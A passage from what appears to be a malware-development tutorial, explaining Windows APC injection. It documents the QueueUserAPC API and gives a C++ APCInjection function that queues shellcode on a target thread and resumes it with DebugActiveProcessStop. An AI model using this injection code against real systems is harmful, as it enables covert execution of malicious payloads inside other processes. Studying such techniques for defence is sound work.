 # Triggering the payload

We will be using `QueueUserAPC` to trigger our shellcode:

```cpp
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

`[in] pfnAPC`

A pointer to the application-supplied APC function to be called when the specified thread performs an alertable wait operation.

`[in] hThread`:

A handle to the thread. The handle must have the  **THREAD_SET_CONTEXT**  access right.

`[in] dwData`:

A single value that is passed to the APC function pointed to by the  _pfnAPC_  parameter.

`QueueUserAPC` allows a thread to queue a user-mode asynchronous procedure call (APC) to the APC queue of another thread. This means that code provided by us can be executed asynchronously within the context of the target thread.

- `pfnAPC`: The address of our shellcode.
- `hThread`: A handle to the alertable state.

```cpp

  if (!QueueUserAPC((PAPCFUNC)*pAddress, *hThread, NULL)) {
    printf("QueueUserAPC failed with error %x\n", GetLastError());
    return FALSE;
  }
```

And then as we said before we need to activate the thread, using:

```cpp
  DebugActiveProcessStop(*dwProcessId);
```

Full function: 
```cpp
bool APCInjection(IN HANDLE* hThread, IN PVOID* pAddress, IN DWORD* dwProcessId) {

  if (!QueueUserAPC((PAPCFUNC)*pAddress, *hThread, NULL)) {
    printf("QueueUserAPC failed with error %x\n", GetLastError());
    return FALSE;
  }

  DebugActiveProcessStop(*dwProcessId);

  return TRUE;
}
```
# Tracing execution
